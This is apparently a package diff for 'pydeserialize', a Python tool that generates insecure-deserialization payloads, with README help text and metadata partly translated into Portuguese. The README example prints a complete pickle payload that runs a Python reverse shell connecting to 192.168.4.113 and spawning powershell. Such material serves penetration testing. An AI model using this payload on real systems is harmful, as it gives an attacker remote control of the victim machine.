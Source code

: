 ```diff
 pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux
 ```
-Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
+
+# Detalhes 
 ```yaml
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|  
-     v0.0.9 - @joaoviictorti
+     v0.1.0 - @joaoviictorti
 
 options:
   -h, --help            show this help message and exit
   -ip IP                Insert ip
   -p PORT               Insert port
   -e {b64,shell,urlencode,hex} Insert encoding
   -o {Windows,Linux}    Insert operational system
@@ -77,13 +79,13 @@
 pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
 
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|  
-     v0.0.9 - @joaoviictorti
+     v0.1.0 - @joaoviictorti
 
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
 ```
 
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -1,41 +1,42 @@
-Metadata-Version: 2.1 Name: pydeserialize Version: 0.0.9 Summary:
+Metadata-Version: 2.1 Name: pydeserialize Version: 0.1.0 Summary:
 DesserializaÃ§Ã£o insegura em python Home-page: https://github.com/
 joaoviictorti/pyserialize License: MIT Author: JoÃ£o Author-email:
 joaovictorti08@gmail.com Requires-Python: >=3.11,<4.0 Classifier: License ::
 OSI Approved :: MIT License Classifier: Programming Language :: Python :: 3
 Classifier: Programming Language :: Python :: 3.11 Requires-Dist: termcolor
 (>=2.3.0,<3.0.0) Description-Content-Type: text/markdown [https://capsule-
 render.vercel.app/api?type=waving&color=0000FF&height=120&section=header] [!
 [Typing SVG](https://readme-typing-svg.herokuapp.com/
 ?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)]
 (https://git.io/typing-svg)
-   *** Tool for testing python insecure deserialization vulnerabilities ***
-                 Features â¢ Install â¢ How_to_use â¢ Usage
+  *** pydeserialize testar vulnerabilidades de desserializaÃ§Ã£o insegura do
+                                  python ***
+ CaracterÃ­sticas â¢ InstalaÃ§Ã£o â¢ Forma_de_utilizaÃ§Ã£o â¢ Detalhes â¢
+                               Executando_revmap
 --- O pydeserialize Ã© uma ferramenta que gera payloads de desserializaÃ§Ã£o
 insegura em python. Possui uma funcionalidade que faz encode das payloads
```